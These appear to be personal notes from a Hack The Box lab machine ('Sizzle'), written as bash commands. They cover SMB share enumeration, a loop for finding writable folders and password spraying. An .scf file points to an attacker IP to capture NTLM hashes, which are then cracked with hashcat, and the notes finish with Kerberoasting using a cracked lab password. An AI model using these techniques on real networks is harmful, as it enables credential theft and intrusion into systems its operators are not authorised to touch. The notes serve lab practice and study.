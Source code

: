 ```bash

# readable: department shares, ipc$
smbmap -H $tip -u null

## mount and check
sudo mount -t cifs   "//$tip/Department Shares" /mnt/sizzle
ls -1 /mnt/sizzle/users > users.txt

find . -type d | while read directory; do 
    touch ${directory}/test 2>/dev/null && echo "${directory} - write file" && rm ${directory}/test; 
    mkdir ${directory}/test 2>/dev/null && echo "${directory} - write dir" && rmdir ${directory}/test; 
done

# one line
find . -type d | while read directory; do touch ${directory}/0xdf 2>/dev/null && echo "${directory} - write file" && rm ${directory}/0xdf; mkdir ${directory}/0xdf 2>/dev/null && echo "${directory} - write directory" && rmdir ${directory}/0xdf; done

# user check, amanda not exist.
crackmapexec smb $tip -u users.txt -p '123456' --shares --continue-on-success

# check walkthrough
## users/public, able to write file. scp attack to obtain ntlm hash.

## hello.scf
[Shell]
Command=2
IconFile=\\10.10.14.90\share\hello.ico
[Taskbar]
Command=ToggleDesktop

## copy to /mnt/sizzle/Users/Public
sudo cp hello.scp /mnt/sizzle/Users/Public

## watch the dir
watch -d "ls /mnt/sizzle/Users/Public"

## start smbshare
smbserver.py -smb2support share ./ &

## crack hash. 
hashcat -m 5600 amanda.ntlmv2 /usr/share/wordlists/rockyou.txt --force

# check creds, amanda
## no winrm
crackmapexec winrm $tip -u 'amanda' -p 'Ashare1972'

## smb, got another share CertEnroll
crackmapexec smb $tip -u 'amanda' -p 'Ashare1972'  --shares
smbmap -H $tip -u amanda -p Ashare197

# enum ad
bloodhound-python -c All -u amanda -p 'Ashare1972' -d htb.local -dc htb.local -ns $tip

ldapsearch -H ldap://$tip -D 'amanda' -w 'Ashare1972' -x -b "DC=htb,DC=local"  | tee ldap.amanda

## kerberoast check, mrlky, http/sizzle
GetUserSPNs.py htb.local/amanda:Ashare1972 -dc-ip $tip -request

----Foothold

```